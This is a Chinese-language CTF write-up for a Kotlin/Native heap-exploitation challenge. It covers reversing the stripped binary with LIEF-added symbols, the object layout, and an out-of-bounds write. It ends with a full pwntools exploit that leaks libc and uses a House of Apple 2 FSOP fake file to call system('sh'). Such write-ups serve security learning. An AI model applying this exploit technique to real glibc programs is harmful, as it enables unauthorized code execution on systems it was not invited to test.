



# Library

> Are you a cat?? Writing everywhere?

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.39-0ubuntu8.4|

## 解题思路

### 背景知识

刚拿到binary的时候就知道不对，有440K，显然已经超过了常规题目的大小。查看编译器信息，
有gcc 8.3.0、clang等，搜索kexe发现，这是一个 **Kotlin/Native** 生成的ELF。
但是剥了符号，要怎么逆呢？我们可以手动下载 **kotlin-native** 工具链，
然后写一个简单的kt，并生成一个ELF。通过对比题目与我们的binary，可以发现由于激进的优化策略，
`EnterFrame`等函数都被内联了，导致题目的`kt::main`函数特别特别大。找到真正的main函数以后，
我们就可以开始理解程序逻辑了。

有师傅可能想在程序里寻找字符串，结果发现一个都找不到，这是因为Kotlin是一个基于JVM的上层语言，
它的字符串和Java的字符串一样，是用 **UTF-16** 编码的，在输出到终端时，再转换回UTF-8，
因此为了搜索字符串，必须用UTF-16来寻找。

在kotlin中，处理一个对象是从Object Header开始的，然后对象的第一个QWORD会存放一个Object
Header的指针，然后再存放具体的数据。从我们之前生成的带调试符号的binary中找，
他们大多是`0x90`字节大小。由于我没有找到相关的资料，下图是我对结构的解释，
要写exp也不需要了解更多，如果有人从源码里找到更多信息也可以发到评论区。



在运行时我们能发现在内存布局中有大小为`0x800000`的rw段和一个`0x100000`的rw段，
前者是两块由pthread开的线程栈—— *GC Timer Thread* 和 *GC Timer Thread* ；
后者是kotlin用来存放对象的段，我称其为 *jvm heap*。

### 给调试加点符号

手动调试这么一个大型的无符号ELF还是过于困难了，不过我恰好在翻LIEF的文档时，
找到了能添加符号的函数。在变调试边探索的过程中，我推测出了很多符号，
可以使用以下脚本，将符号加入到原来的binary中，这样我们在使用gdb调试时，
就可以直接使用这些符号了，而不是只能对着一系列抽象的地址做操作。

```python
#!/bin/python
import lief

def newsym(name: str, addr: int, end: int) -> lief.ELF.Symbol:
     sym = lief.ELF.Symbol()
     sym.name = name
     sym.value = addr
     sym.size = end - addr if end else 0
     sym.binding = lief.ELF.Symbol.BINDING.GLOBAL
     sym.type = lief.ELF.Symbol.TYPE.FUNC
     sym.visibility = lief.ELF.Symbol.VISIBILITY.DEFAULT
     sym.shndx = 15
     return sym

def newsymobj(name: str, addr: int, size: int) -> lief.ELF.Symbol:
     sym = lief.ELF.Symbol()
     sym.name = name
     sym.value = addr
     sym.size = size
     sym.binding = lief.ELF.Symbol.BINDING.GLOBAL
     sym.type = lief.ELF.Symbol.TYPE.OBJECT
     sym.visibility = lief.ELF.Symbol.VISIBILITY.DEFAULT
     sym.shndx = 22
     return sym

if __name__ == '__main__':
    binary: lief.ELF.Binary = lief.parse('./library.kexe')
    rpath = lief.ELF.DynamicEntryRunPath()
    rpath += '/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/'
    binary.add(rpath)
    binary.interpreter = \
        '/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/ld-linux-x86-64.so.2'
    syms = [
        lief.ELF.Symbol(), # must have an empty symbol
        newsym('main', 0x24ee90, 0x24eea0),
        newsym('kt_main', 0x23b9b0, 0x2408ba),
        newsym('kt_print', 0x24f540, 0x24f5df),
        newsym('kt_tostr', 0x227ec0, 0x22ceeb),
        newsym('kt_readln', 0x22a7a0, 0x22aa61),
        newsym('kt_toint', 0x23ac60, 0x23b1f2),
        newsym('lwhatthehell', 0x240639, 0),
        newsym('ldefault', 0x23cb61, 0),
        newsym('l114514cat', 0x23cb79, 0),
        newsym('l1borrow', 0x23c8a8, 0),
        newsym('l2return', 0x23d527, 0),
        newsym('l3read', 0x23cdf8, 0),
        newsym('l4watch', 0x23ce85, 0),
        newsym('l5play', 0x23cd77, 0),
        newsym('l6exercise', 0x23dc4e, 0),
        newsym('l7listen', 0x23dcd4, 0),
        newsym('l8study', 0x23d381, 0),
        newsym('l9leave', 0x24043d, 0),
        newsym('laskopt', 0x23bbb0, 0),
        newsym('lcat1', 0x23cbbe, 0),
        newsym('lcat23', 0x23cbcf, 0),
        newsym('lcat4', 0x23e574, 0),
        newsym('lcatp', 0x23eef8, 0),
        newsym('lcatg', 0x23ccec, 0),

        newsymobj('kt_String', 0x2623b0, 144),
        newsymobj('kt_Array', 0x2613e0, 144),
        newsymobj('kt_ArrayList', 0x263690, 144),
        newsymobj('kt_Any', 0x261350, 144),
        newsymobj('kclass_collections', 0x265800, 0x40),
        newsymobj('kt_ArrayList_Itr', 0x263870, 144),
        newsym('slowpath0', 0x246020, 0x246050),
        newsym('kt_remaining', 0x230f10, 0x230f36),
        newsymobj('kt_EmptyList', 0x264cc0, 144),
        newsymobj('kt_EmptyIterator', 0x264de0, 144),
        newsymobj('klass_comparisons', 0x268190, 0x40),
        newsymobj('kt_NaturalOrderComparator', 0x264ef0, 144),
        newsymobj('klass_coroutines', 0x268210, 0x40),
        newsymobj('kt_EmptyCoroutineContext', 0x265000, 144),
        newsymobj('klass_ctf', 0x268620, 0x40),
        newsymobj('ctf_Library', 0x265600, 144),
        newsymobj('klass_kt', 0x265860, 0x40),
        newsymobj('kt_Int', 0x262210, 144),
        newsym('slowpath1', 0x246000, 0x246011),
        newsymobj('klass_ktx_cinterop', 0x265690, 0x40),
        newsymobj('ktx_StableRef_Companion', 0x2611c0, 144),
        newsym('cpp_malloc', 0x253f2f, 0x253f88),
        newsymobj('kt_CharArray', 0x261500, 144),
        newsym('kt_println', 0x22a640, 0x22a756),
        newsymobj('kt_Long', 0x2622e0, 144),
        newsymobj('kt_ArrayList_Companion', 0x2637e0, 144),
        newsym('ArrayList_tostr', 0x22a640, 0x22a756),
    ]

    for sym in syms:
        binary.add_symtab_symbol(sym)
    binary.write('./library.kexe.new')
```

> [!TIP]
> 将函数符号的大小设置为0，gdb就会认为它是一个“标签”，它没有范围。除此之外，
> 你还可以看到LIEF可以用来设置解释器，添加RUNPATH，可以说，它完全可以替代`patchelf`。

什么，你还不知道LIEF是什么？[LIEF是一个解析二进制文件的库](https://lief.re/)，由C++编写，
未来pwntools将使用它来解析二进制文件。我之后也会考虑单独出一期博客讲讲这个好用的库。

### 具体分析

找到`kt_main`函数后，可以看到在菜单打印之后有一个switch case，不难发现在default的逻辑里，
藏了一个额外的case *114514: magic cat* ~~戳啦，木猫嘛~~，在patch完elf后通过`g`可以打印栈地址，
通过`p`可以往那一块写16字节。在调试完所有的功能以后，可以发现，
有一个`org.l3hsec.ctf2025.helloKotlin.Library`的类对象一直在被访问，里面有2个`ArrayList`，
以及2个栈上的地址（一个是触发magic cat以后才会出现的）。

其中ArrayList的结构大概是这样的：

```c
struct String {
    ObjectHeader *header;
    unsigned long size;
    char16_t str[size];
};

struct Array {
    ObjectHeader *header;
    unsigned long size;
    String *arr[size];
};

struct ArrayList {
    ObjectHeader *header;
    unsigned nitem;
    unsigned modtimes;
    Array *array;
};
```

我们可以总结一下功能： *1: borrow* 可以将一个`String`添加到`ArrayList`当中；
*2: return* 输入`String d`，foreach `ArrayList`，其中的字符串包含`d`子串则从`ArrayList`中删除；
*3: read* 第一次输入没啥用，不会用到的，第二次输入一个偏移`offset`，
然后触发`read(0, &ArrayList.array + offset * 8, 16)`，主要的利用点也是在这里；
*4: watch* 基本上就是输入一个电影名，然后做了一下拼接，没啥用；*5: play* *6: exercise*
*7: listen* 都没啥用，只是打印了内置的字符串； *8: study*
会调用`ArrayList.toString()`打印列表中的内容，如果我们能控制`ArrayList.array`，
就可以用来泄露信息； *9: leave* 返回。

由于对象都是分配在jvm heap中且相对距离一般是固定的，并且可以泄露一个栈地址，
因此我们可以在那一块伪造一个`String`，然后将其放入`ArrayList.array`中，
在使用 *study* 打印其中的内容。由于我们能控制栈上的16字节，因此可以把`size`伪造得很大，
这样就可以在打印时泄露大量内容。



> [!IMPORTANT]
> 当打印字符串时，会把`String.str`先从UTF-16 cast 到UTF-8，为此，我们从中获取输出时，
> 需要先用UTF-8解码，再用UTF-16编码才能获取原始内容。

到了这一步以后就很简单了，由于栈离jvm heap实在太远，索引超过了32位的限制，
输入偏移的时候会被`kt_toint`返回`NULL`而导致程序退出，因此选择打IO。
在jvm heap上反复利用 *read* 构造一个fake file，然后正常退出执行FSOP拿shell。

> [!NOTE]
> 有师傅通过 *watch* 可以将输入的字符串放到栈上，但是我这里不行...
> *hkbin* 师傅的思路是通过修改`Library`中关于magic cat的使用计数和指针，
> 从而达到任意读写的目的，也挺巧妙的。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './library.kexe'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b l8study\nc')
    else:
        t = remote('1.95.34.119', 25314)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
    elf = ELF(EXE)

    def borrow(name: bytes):
        t.sendlineafter(b'What do you want to do', b'1')
        t.sendlineafter(b'What book to', name)

    def read(idx: int, mem: bytes):
        t.sendlineafter(b'What do you want to do', b'3')
        t.sendlineafter(b'What book to', b'0')
        t.sendlineafter(b'at page', str(idx).encode())
        t.sendafter(b'to write', mem)

    def study() -> bytes:
        t.sendlineafter(b'What do you want to do', b'8')
        t.recvuntil(b'borrowed books: \n')
        return t.recvuntil(b']\n')[1:-2]

    def leave():
        t.sendlineafter(b'What do you want to do', b'9')

    def cat(op: bytes, loop: int, mem: bytes=b'') -> int | None:
        t.sendlineafter(b'What do you want to do', b'114514')
        if loop == 1:
            return None
        if op == b'g':
            t.sendlineafter(b'[p/g]\n', op)
            return int(t.recvline())
        if op == b'p':
            t.sendlineafter(b'[p/g]\n', op)
            t.sendafter(b'Put what', mem)
            return None
        assert False

    borrow(b'RANDOM') # create an entry
    cat(b'', 1)
    buf_addr = cat(b'g', 2) - 0x90
    info(f'Try to forge String @ {buf_addr:#x}')
    cat(b'p', 3, flat(elf.symbols['kt_String'], 200))
    read(-0x8000, flat(buf_addr, 0)) # ArrayList(Array(String(buf_addr, 200)))

    leak = study().decode().encode('UTF-16')
    libc_base = u64(leak[0xda:0xe2]) - 122 - 0x2a150 # __libc_start_call_main
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    array = u64(leak[0x82:0x8a])
    list_base = array - 0x7fff0
    info(GOLD_TEXT(f'Guessing "read book" is offset from {list_base:#x}'))
    offset_from_io = (libc.symbols['_IO_list_all'] - list_base) // 8
    info(f'Offset from _IO_list_all is {offset_from_io}')

    heap = list_base + 0xe00
    offset_from_base = (heap - list_base) // 8
    # House of Apple 2 payload
    file = flat({
        0:      b'  sh;\0',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0x88:   heap - 0x10, # lock
        0xa0:   heap,
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   heap,
        0xe8:   0, # align up 16
    }, filler=b'\0')
    for idx, off in enumerate(range(0, len(file), 16)):
        read(offset_from_base + idx * 2, file[off:off + 16])

    info(f'Hijacking _IO_list_all...')
    read(offset_from_io, flat(heap, 0))
    leave()

    t.clean(1)
    t.interactive()
    t.close()
```



## 参考

1. [LIEF](https://lief.re/)
